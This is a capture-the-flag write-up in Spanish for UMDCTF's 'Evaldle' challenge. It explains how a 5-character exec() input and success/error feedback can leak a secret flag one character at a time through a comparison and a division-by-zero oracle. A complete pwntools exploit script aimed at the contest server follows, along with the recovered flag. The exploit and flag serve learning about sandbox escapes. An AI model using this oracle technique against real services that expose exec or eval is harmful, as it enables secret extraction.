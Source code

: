 # Evaldle

"eval" + "wordle"

La funcion `exec` ejecuta el codigo python que se le pase, si es una string

Nuestra entrada es de solo 5 caracteres, recibimos 🟩🟩🟩🟩🟩 si le pasamos un codigo correcto o 🟥🟥🟥🟥🟥 si ocurre algun error

Podemos crear variables dentro de exec y manipular las existentes, con estas podemos recuperar cada caracter de la flag con el siguiente algoritmo:

1- Inicializamos la variable `a` en '', esta sera nuetra preflag

2- Asignamos un caracter a la variable `b` de un alfabeto

3- Hacemos `c=a+b`, esto es la preflag + el caracter de prueba

4- Hacemos `d=f>c`, esto compara el ultimo caracter de la preflag con el correspondiente en la flag, si el de la flag es lexicograficamente mayor devuelve 1, sino devuelve 0

5- Probamos `1/d`, esto genera un error si d es falso por la division entre 0

6- Repetimos 2-5 con un caracter diferente del alfabeto hasta que 4 sea verdadero, entonces hacemos `a+=p`, siendo p el caracter anterior a `b`
Porque d=f>c es verdadero cuando f<c, entonces el caracter anterior es el correcto en la flag

7- Repetimos 2-6 hasta que el ultimo previo a `b` sea `}`, el fin de la flag

Exploit:
``` python
from pwn import *

alphabet = b"!#$%&'()*+,-./0123456789:;<=>@ABCDEFGHIJKLMNOPQRSTUVWXYZ[]^_`abcdefghijklmnopqrstuvwxyz{|}~"

flag = b""

#io = process(["python3","evaldle.py"])
io = remote("challs.umdctf.io",31601) 
def guess(payload):
    io.readuntil(b"Guess: ")
    io.sendline(payload)
    io.readline()
    res = io.readline().decode("utf-8")
    return "🟩" in res

def has_letter(letter):
    guess(b"b='" + letter + b"'")
    guess(b"c=a+b")
    guess(b"d=f>c")
    res = guess(b"1/d  ")
    # Porque res es True si el caracter de f es mayor a letter
    # Lo que significa que no se ha llegado al correcto
    return not res

guess(b"a='' ")
while b"}" not in flag:
    prev = None
    for c in alphabet:
        if has_letter(bytes((c,))):
            flag += prev
            print(flag)
            guess(b"b='" + prev + b"'")
            guess(b"a+=b ")
            break
        prev = bytes((c,))


io.interactive()
```

`UMDCTF{that_took_a_lot_more_than_six_guesses}`
